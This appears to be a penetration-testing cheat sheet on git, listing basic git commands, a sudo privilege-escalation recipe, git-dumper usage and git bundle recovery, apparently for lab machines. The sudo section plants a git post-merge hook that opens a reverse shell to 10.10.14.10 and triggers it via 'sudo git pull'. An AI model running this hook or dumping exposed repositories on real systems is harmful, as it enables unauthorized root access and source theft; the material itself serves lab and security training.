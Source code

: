 ```yaml
---
title: "git"
date: 2024-6-28
tags: ["git", "git-dumper", "sudo", "privesc"]
---
```


---
### Basic Commands

```bash
# Show status
git status
```

```bash
# Reset the current branch to a previous commit
git reset --hard
```

```bash
# Show information about files
git ls-files --stage
```

```bash
# Show current branch
git branch
```

```bash
# Show commits
git log <BRANCH_NAME> --oneline
```

```bash
# Show diff, a and b are commit hash
# a is the older commit
git diff [a] [b]
```

```bash
# Show commit
git show <COMMIT_HASH>
```

<br>

---

### SUDO

```bash
# Copy target project
cp -r /var/www/html/project .
```

```bash
# Create a malicious post-merge
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.10/1337 0>&1' > ./project/.git/hooks/post-merge
```

```bash
# Run
sudo /usr/bin/git pull
```

<small>*Note: Make changes to the project to make the pull work*</small>

---

### git-dumper

[Download git-dumper](https://github.com/arthaud/git-dumper)

```bash
git-dumper http://10.10.11.10/.git result/
```

<br>

---

### git-bundle

```bash
# List all bundles
find . -type f -exec file {} \;
```

```bash
# Get bundle
git clone -b master @hashed/ab/cd/<HASH>.bundle
```

<br>